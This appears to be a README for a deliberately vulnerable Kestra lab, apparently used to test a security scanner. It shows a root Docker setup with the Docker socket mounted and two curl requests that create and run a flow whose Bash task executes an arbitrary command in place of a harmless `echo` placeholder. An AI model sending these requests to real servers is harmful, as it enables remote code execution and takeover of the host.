# Prerequisites
- Docker installed on your machine.
- port 8080 available on your host machine.

# Vulnerable setup
```bash
docker run --pull=always --rm -it -p 8080:8080 --user=root \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /tmp:/tmp kestra/kestra:latest server local
```
## exploitation
1. replace `echo ""` with the command you want to run in the `bash` task.
```bash
curl 'http://127.0.0.1:8080/api/v1/main/flows' \
-X POST \
-H 'Content-Type: application/x-yaml' \
--data-raw $'id: tsunami_security_scanner\nnamespace: company.team\n\ntasks:\n  - id: bash\n    type: "io.kestra.core.tasks.scripts.Bash"\n    commands:\n      - \'echo ""\'\n'

curl 'http://127.0.0.1:8080/api/v1/main/executions/company.team/tsunami_security_scanner' -X POST 
```